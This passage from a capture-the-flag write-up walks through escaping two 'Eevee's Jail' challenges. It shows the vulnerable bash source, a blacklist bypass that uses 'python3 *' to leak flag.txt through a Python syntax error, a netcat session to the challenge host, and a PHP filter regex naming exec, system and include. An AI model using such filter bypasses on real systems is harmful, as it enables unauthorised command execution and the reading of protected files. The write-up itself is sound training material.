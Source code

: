```sh
        read -p "[+] > " huh
        if blacklist "$huh"
        then
                echo -e '[!] Mission Failed'
        else
                output=`$huh < /dev/null` &>/dev/null
                echo "Command executed"
        fi
done 
```

The blacklist in Eevee3 prevents some of the characters you'd normally use for command arguments to spawn an interactive shell, i.e `-I`, `-c`.
The characters needed to spell flag.txt are also blocked.

I tried different things then I found that `python3` passess the blacklist filter.
However, we can't use python in interactive mode or use `-c` to escape the jail because of the blacklist.
At this point, my idea was to leak the flag through python syntax errors.

The trick here is because python doesn't care about file extensions, as long as the text file you pass to it has valid python syntax.
So, if we pass in the flag as a script to python (which doesn't have valid python code), it will try to parse it and throw a syntax error to leak the flag.
We use `*` because we can't spell flag, so we just try to execute everything in the current working directory as python scripts.

```
marcus@Marcuss-MacBook-Air eevee3 %  nc 157.180.92.15 9003 
========================
=    Eevee's Jail 3    =
========================
[+] > python3 *
python3 *
  File "flag.txt", line 1
    bbctf{you really escape the prison this way huh?}
         ^
SyntaxError: invalid syntax
Command executed
```

### Eevee Jail - 4 (Jail)

> Another jail? Now what? Flag is at flag.txt
> 
> Author: n3r

jail-4.php
```
<?php

echo "========================\n";
echo "=    Eevee's Jail 4    =\n";
echo "========================\n";

echo "[+] > ";
$var = trim(fgets(STDIN));

if($var == null) die("[?] Input needed to escape this prison\n");

function filter($var) {
        if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var)) {
                return false;
        }
        return true;
}
```